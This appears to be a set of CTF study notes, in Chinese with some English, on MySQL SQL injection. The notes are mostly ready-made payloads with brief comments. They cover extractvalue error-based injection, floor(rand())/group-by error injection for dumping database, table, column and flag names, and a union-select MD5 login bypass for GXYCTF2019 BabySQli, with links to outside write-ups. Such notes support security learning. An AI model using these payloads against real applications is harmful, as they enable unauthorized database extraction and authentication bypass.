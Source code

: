 ```
?username=admin'or(extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e)))%23&password=pass
?username=admin'or(extractvalue(1,concat(0x7e,(select(group_concat(right(password,30)))from(H4rDsq1)),0x7e)))%23&password=pass

```

方法2

测试

    1#
    select * from news where id=1#
    查询正确 => 判断出为整形的报错注入

查询数据库名

    1 Union select count(*),concat(database(),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
                                                                   // from information_schema.columns 可以是别的，但一定要有数据
    select 1 Union select count(*),2 group by concat(database(),floor(rand(0)*2)); //简化版
    看有几列填几个数
    1 Union select count(*),concat(database(),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
    select 1 Union select count(*),concat(database(),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
    select 1 Union select count(*),concat((查询语句),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
    select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;

查表名

    select 1 Union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
    select 1 Union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
    多个表需要挨个试验

查字段名

    1 Union select count(*),concat((select column_name from information_schema.columns where table_name='flag' limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
    返回flag

查数据
    
    1 Union select count(*),concat((select flag from flag limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x

### 0x4 SQL union生成虚拟表 md5 绕过: name=1' union select 1,'admin','e10adc3949ba59abbe56e057f20f883e'#&pw=123456
`[GXYCTF2019]BabySQli`
https://www.jianshu.com/p/034cfa61a305
https://www.cnblogs.com/gaonuoqi/p/12355035.html

